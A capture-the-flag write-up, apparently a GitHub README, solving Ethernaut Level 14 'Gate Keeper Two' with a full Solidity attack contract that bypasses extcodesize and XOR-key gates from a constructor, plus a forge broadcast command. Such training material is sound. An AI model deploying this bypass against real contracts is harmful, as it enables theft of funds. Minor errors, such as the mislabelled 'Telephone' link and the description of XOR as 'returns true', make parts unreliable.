 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/14-gate2.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 14 - Gate Keeper Two</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 14 - Telephone](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-14-gate-keeper-two)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
  - [modifier one](#modifier-one)
  - [modifier two](#modifier-two)
  - [modifier three](#modifier-three)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Goals

<img src="../assets/requirements/14-gate2-requirements.webp" width="800px"/>

## The hack

Another gatekeeper here with three modifiers to pass. So let's see how to pass them.

### modifier one

```javascript
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

Lucky us, this is the same modifier as the previous level, so we can use a contract to call the function. Or can we?

### modifier two

```javascript
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
}
```

The `extcodesize` opcode returns the size of the code at the given address, `caller()` here. If the address is a contract, it will return the size of the contract's code. If the address is an EOA (Externally Owned Account), it will return 0.

So, it seems that we can't use an intermediary contract after all. However, there is no way to pass the first gate otherwise. Is there another solution then?

Well yes, there is. If we execute our call from a `constructor`, the `extcodesize` will return 0 since the contract hasn't been deployed yet technically. So this is how we can pass the second gate.

### modifier three

```javascript
modifier gateThree(bytes8 _gateKey) {
     require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

This one looks pretty ugly at first glance, but let's take a better look at the XOR operator first. The XOR operator returns true if the two operands are different. So, if `A ^ B == C`, then `A ^ C == B` and `B ^ C == A`. So we could rewrite the modifier like this (which is much nicer, let's be honest):

```javascript
modifier gateThree(bytes8 B) {
    require(uint64(A) ^ uint64(B) == uint64(C));
    _;
}
```

In other words, no need to think too much here, the `_gateKey` will be simply equal to:

```java
bytes8 _gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
```

## Solution

We can now write our contract to pass the three gates:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract GateSkipperTwo {
    constructor(address _gateKeeperTwo) {
        attack(_gateKeeperTwo);
    }

    function attack(address gateKeeperTwo) private {
        bytes8 _gateKey = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^
                type(uint64).max
        );

        (bool success, ) = gateKeeperTwo.call(
            abi.encodeWithSignature("enter(bytes8)", _gateKey)
        );
        require(success, "Attack failed");
    }
}
```

Then, run the script with the following command:

```bash
forge script script/14_GateKeeperTwo.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- The `extcodesize` opcode returns the size of the code at the given address.
- The contract's size is 0 in the constructor.
- The XOR operator `^` returns true if the two operands are different.

## Reference

- [Distinguishing EOA from Smart Contracts Securely](https://blog.solidityscan.com/distinguishing-eoa-and-smart-contracts-securely-911dc42fdf13)

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
